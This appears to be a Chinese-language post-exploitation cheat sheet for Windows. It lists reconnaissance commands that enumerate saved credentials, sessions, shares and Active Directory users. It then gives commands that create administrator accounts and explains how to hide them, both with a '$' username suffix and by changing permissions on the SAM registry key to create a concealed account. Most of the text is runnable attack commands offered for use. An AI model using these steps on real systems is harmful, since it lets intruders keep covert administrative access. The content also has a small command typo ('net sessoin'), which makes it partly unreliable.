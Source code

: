 ```
whoami /all 查看 Mandatory Label uac 级别和 sid 号
net sessoin 查看远程连接 session (需要管理权限)
net share     共享目录
cmdkey /l   查看保存登陆凭证
echo %logonserver%  查看登陆域
spn –l administrator spn 记录
set  环境变量
dsquery server - 查找目录中的 AD DC/LDS 实例
dsquery user - 查找目录中的用户
dsquery computer 查询所有计算机名称 windows 2003
dir /s *.exe 查找指定目录下及子目录下没隐藏文件
arp -a
```

# 0x02 新建用户
## 基本命令

```
net user temp temp2005 /add
net localgroup administrators temp /add
```

system权限3389无法添加的用户情况:
[解决system权限3389无法添加的用户情况](http://www.91ri.org/5866.html)



## 常见的账户隐藏手法
### 命令行隐藏手法

优点：简单、快捷、不需要花里胡哨的东西。一条命令搞定。
缺点：只限于不被cmd命令行模式发现用户，容易被稍有经验的人发现

`net user 用户名$ /add`

### 注册表隐藏手法

优点：不易被发现。
缺点：注册表可见。

* 修改权限

默认注册表`HKEY_LOCAL_MACHINE\SAM\SAM\`只有`system`权限才能修改
现在需要为其添加管理员权限
右键-权限-选中`Administrators`，允许完全控制
重新启动注册表`regedit.exe`，获得对该键值的修改权限

* 新建特殊账户

```
net user test$ 123456 /add
net localgroup administrators test$ /add
```
